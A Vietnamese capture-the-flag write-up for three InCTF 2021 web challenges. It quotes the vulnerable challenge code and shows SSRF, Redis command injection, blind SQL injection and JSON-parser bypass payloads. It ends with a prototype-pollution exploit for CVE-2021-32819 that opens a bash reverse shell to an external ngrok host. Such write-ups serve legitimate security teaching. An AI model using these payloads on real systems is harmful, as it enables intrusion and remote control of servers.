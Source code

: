 # INCTF2021_web_writeup
---
## Raas
- Từ file docker, biết được source code nằm ở /code và 2 file main.py và app.py, tải file về bằng payload:
``` file://web.challenge.bi0s.in:6969/code/app.py ```

- Yêu cầu là set '_isAdmin' thành "yes", chuỗi '_isAdmin' sẽ được nối vào sau uid của người dùng => key có dạng uid+'_isAdmin', value='false'
- Gợi ý là sử dụng 'inctf://redis:6379/_get', thử đổi get thành set, payload:
``` inctf://redis:6379/_set {uid}_isAdmin yes ```
---
## Vuln Drive
- /source để lấy source code -> 
- /dev-test -> ssrf
- Nhưng hàm 'url_validate(url)' Chặn các payload thông thường
``` 
def url_validate(url):
    blacklist = ["::1", "::"]
    for i in blacklist:
        if(i in url):
            return "NO hacking this time ({- _ -})"
    y = urlparse(url)
    hostname = y.hostname
    try:
        ip = socket.gethostbyname(hostname)
    except:
        ip = ""
    print(url, hostname,ip)
    ips = ip.split('.')
    if ips[0] in ['127', '0']:
        return "NO hacking this time ({- _ -})"
    else:
        try:
            url = unquote(url)          #  <==
            r = requests.get(url,allow_redirects = False)
            return r.text
        except:
            print(url, hostname)
            return "cannot get you url :)"
```
- Câu này có 1 ip private, có thể kiếm trong /etc/hosts, thay vì localhost, mình có thể dùng ip private để bypass ssrf filter
- Sử dụng đường dẫn đó để ssrf -> 1 trang php
```
<?php
include('./conf.php');
$inp=$_GET['part1'];
$real_inp=$_GET['part2'];
if(preg_match('/[a-zA-Z]|\\\|\'|\"/i', $inp)) exit("Correct <!-- Not really -->");
if(preg_match('/\(|\)|\*|\\\|\/|\'|\;|\"|\-|\#/i', $real_inp)) exit("Are you me");
$inp=urldecode($inp);
//$query1=select name,path from adminfo;
$query2="SELECT * FROM accounts where id=1 and password='".$inp."'";
$query3="SELECT ".$real_inp.",name FROM accounts where name='tester'";
$check=mysqli_query($con,$query2);
if(!$_GET['part1'] && !$_GET['part2'])
{
    highlight_file(__file__);
    die();
}
if($check || !(strlen($_GET['part2'])<124))
{
    echo $query2."<br>";
    echo "Not this way<br>";
}
else
{
    $result=mysqli_query($con,$query3);
    $row=mysqli_fetch_assoc($result);
    if($row['name']==="tester")
        echo "Success";
    else
        echo "Not";
    //$err=mysqli_error($con);
    //echo $err;
}
?>
```
- SQLi!!! Phân tích code, cần làm query2 trả về sai và lợi dụng query3 để blind sqli(vì kết quả cuối cùng chỉ trả về cho ta Not hay Success)
- Vì part1 sử dụng urldecode, nên ta có thể bypass replace bằng double url encode ```$inp=urldecode($inp);```, ```%25```-> ```%``` 
- => ```urldecode(%2527)``` -> bypass preg_match
- Từ comment query1 -> phải tìm path trong adminfo db
- inject vào query 3 theo thứ tự path,name và sử dụng like 0x25{}25 để bypass preg_match part2
- Payload:
```http://192.168.96.2/part1=0x252527&part2=path,name FROM adminfo WHERE path like 0x25{}25 UNION SELETE 1```
- Vì bị giới hạn độ dài nên tên file sẽ không được in ra hết (27 kí tự). Do đó để lấy 5 ký tự cuối, ta dùng path like 0x25{nửa_payload_cuối}25
- LFI file đó => flag
![image](https://user-images.githubusercontent.com/58381595/129514986-0c4b8f5a-fb7c-4008-9e86-19b84005a1d9.png)
---
## Json Analyser
1. Lấy mã PIN:
```
@app.route('/verify_roles',methods=['GET','POST'])
def verify_roles():
    no_hecking=None
    role=request.args.get('role')
    if "superuser" in role:
        role=role.replace("superuser",'')
    if " " in role:
        return "n0 H3ck1ng"
    if len(role)>30:
        return "invalid role"
    data='"name":"user","role":"{0}"'.format(role)
    no_hecking=re.search(r'"role":"(.*?)"',data).group(1)
    if(no_hecking)==None:
        return "bad data :("
    if no_hecking == "superuser":
        return "n0 H3ck1ng"
    data='{'+data+'}'
    try:
        user_data=ujson.loads(data)
    except:
        return "bad format" 
    role=user_data['role']
    user=user_data['name']
    if (user == "admin" and role == "superuser"):
        return os.getenv('subscription_code')
    else:
        return "no subscription for you"
```
- Yêu cầu: làm data có dạng {"name":"admin","role":"superuser"}
- ```supersuperuseruser``` để bypass replace
- ```supersuperuseruser\ud888``` để bypass ujson.load, tham khảo: [https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities]
- ```supersuperuseruser\ud888","name":"admin``` để đổi user thành admin và cũng là payload để lấy PIN
2. Upload File
 ```
 app.post('/upload', function(req, res) {
    let uploadFile;
    let uploadPath;
    if(req.body.pin !== "[REDACTED]"){
        return res.send('bad pin')
    }
    if (!req.files || Object.keys(req.files).length === 0) {
      return res.status(400).send('No files were uploaded.');
    }
    uploadFile = req.files.uploadFile;
    uploadPath = __dirname + '/package.json' ;
    uploadFile.mv(uploadPath, function(err) {
        if (err)
            return res.status(500).send(err);
        try{
        	var config = require('config-handler')();
        }
        catch(e){
            const src = "package1.json";
            const dest = "package.json";
            fs.copyFile(src, dest, (error) => {
                if (error) {
                    console.error(error);
                    return;
                }
                console.log("Copied Successfully!");
            });
        	return res.sendFile(__dirname+'/static/error.html')
        }
        var output='\n';
        if(config['name']){
            output=output+'Package name is:'+config['name']+'\n\n';
        }
        if(config['version']){
            output=output+ "version is :"+ config['version']+'\n\n'
        }
        if(config['author']){
            output=output+"Author of package:"+config['author']+'\n\n'
        }
        if(config['license']){
            var link=''
            if(config['license']==='ISC'){
                link='https://opensource.org/licenses/ISC'+'\n\n'
            }
            if(config['license']==='MIT'){
                link='https://www.opensource.org/licenses/mit-license.php'+'\n\n'
            }
            if(config['license']==='Apache-2.0'){
                link='https://opensource.org/licenses/apache2.0.php'+'\n\n'
            }
            if(link==''){
                var link='https://opensource.org/licenses/'+'\n\n'
            }
            output=output+'license :'+config['license']+'\n\n'+'find more details here :'+link;
        }
        if(config['dependencies']){
            output=output+"following dependencies are thier corresponding versions are used:" +'\n\n'+'     '+JSON.stringify(config['dependencies'])+'\n'
        }

        const src = "package1.json";
        const dest = "package.json";
        fs.copyFile(src, dest, (error) => {
            if (error) {
                console.error(error);
                return;
            }
        });
        res.render('index.squirrelly', {'output':output})
    });
});
```
- Yêu cầu: Gửi file JSON có thể RCE -> sử dụng "__proto__" để trigger cve của squirrelly (file package.json có hiển thị thông tin version bị vuln squirrelly: ^8.0.8 )
- Sử dụng CVE-2021-32819, tham khảo: https://securitylab.github.com/advisories/GHSL-2021-023-squirrelly/
- payload: 
```
{"dependencies": 
  {
    "test":"aaaa",
    "__proto__":{"defaultFilter":"e'));process.mainModule.require('child_process').execSync('/bin/bash -c \"/bin/bash -i >& /dev/tcp/4.tcp.ngrok.io/16542 0>&1\"').toString()//"}
  }
}
```
- Sử dụng dependencies vì code sử dụng ```JSON.stringify(config['dependencies'])``` để phân tích các json con bên trong
- "__proto__" để excute code
- "defaultFilter":"e'));" dự vào CVE-2021-32819 để thực thi code bên phải dấu ;
- Phần code sau là reverse shell về ngrok, ngoài ra có thể curl hoặc các cách khác để rce
![image](https://user-images.githubusercontent.com/58381595/129514687-6e8c170f-8811-494d-881e-da6be4171220.png)
